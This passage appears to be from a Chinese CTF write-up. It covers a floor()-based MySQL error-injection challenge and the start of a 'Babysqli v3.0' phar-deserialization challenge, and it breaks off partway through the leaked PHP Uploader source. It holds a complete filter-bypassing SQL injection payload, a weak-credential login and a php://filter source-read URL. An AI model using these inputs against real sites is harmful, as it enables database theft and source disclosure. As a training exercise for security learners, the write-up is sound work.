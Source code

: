 ##### `floor()`报错注入原理：

已经废话太多了就不再啰嗦了，参考一下[这个链接](https://blog.csdn.net/qq_39101049/article/details/88839514)，照着打就行。
最终的payload：
>name=%df'and(seselectlect 1 from(sselectelect count(\*),concat((sselectelect (sselectelect  concat(327a6c4304ad5938eaf0efb6cc3e53dc) from f14g limit 22,1) from information_schema.tables limit 0,1),floor(rand(0)\*2))x from information_schema.tables group by x)a)--+&pw=123

![avatar](https://k1ng0fic3.github.io/images/sql21.png)

#### 0x02：Babysqli v3.0

其实不是SQL注入，原意是phar反序列化的题，但是非预期很多而且非预期比较简单，还是从正常解开始。

关于phar反序列化有一篇特别好的[总结](https://www.cnblogs.com/BOHB-yunying/p/11504051.html)，必须分享。

首先弱口令或者字典爆破登录进平台（admin&password）
然后跳转到了URL：`http://183.129.189.60:10009/home.php?file=upload`上

![avatar](https://k1ng0fic3.github.io/images/sql22.png)

这种情况就扫一下:共flag.php upload.php home.php index.php四个，直接访问flag.php无回显，也无法文件读取，其他文件会自动加上后缀`.fxxkyou!`且00截断无效。

![avatar](https://k1ng0fic3.github.io/images/sql23.png)

![avatar](https://k1ng0fic3.github.io/images/sql24.png)

测试结果：若包含的文件以`home`或`upload`结尾，则在后面拼接上`.php`后包含；其他都被拼接上`.fxxkyou!`

那么根据提示读upload：`http://183.129.189.60:10009/home.php?file=php://filter/convert.base64-encode/resource=upload`

```php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 

<form action="" method="post" enctype="multipart/form-data">
	上传文件
	<input type="file" name="file" />
	<input type="submit" name="submit" value="上传" />
</form>

<?php
error_reporting(0);
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
	

	function __construct(){
		$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
		$ext = ".txt";
		@mkdir($sandbox, 0777, true);
		if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){
			$this->Filename = $_GET['name'];
		}
		else{
			$this->Filename = $sandbox.$_SESSION['user'].$ext;
		}

		$this->cmd = "echo '<br><br>Master, I want to study rizhan!<br><br>';";
		$this->token = $_SESSION['user'];
	}

```